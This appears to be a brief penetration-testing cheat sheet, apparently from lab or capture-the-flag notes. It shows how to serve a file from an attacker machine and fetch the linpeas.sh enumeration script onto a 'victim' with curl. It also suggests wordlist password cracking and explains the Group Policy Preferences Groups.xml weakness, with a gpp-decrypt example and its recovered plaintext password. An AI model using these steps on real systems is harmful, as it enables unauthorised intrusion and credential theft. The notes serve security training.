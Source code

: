 # How to transfer file from your machine to victim's?

1. Open http server using Python
```
python3 -m http.server 80
```
2. On victim's machine type:
```
curl -O http://10.10.14.24/linpeas.sh
```

# About finding passwords for users

- Use every wordlist and johntheripper/hashcat and try to find password

# About Group Policy Preferences

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features,
allowed administrators to modify users and groups across their network.
An example use case is where a company’s gold image had a weak local administrator password, and
administrators wanted to retrospectively set it to something stronger. The defined password was AES-256
encrypted and stored in Groups.xml . However, at some point in 2012, Microsoft published the AES key on
MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

![image](https://github.com/user-attachments/assets/ab5fcc0b-38ff-4d15-a5d7-674722884bd5)

### Example

We extract the encrypted password form the Groups.xml file and decrypt it using gpp-decrypt .

```
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
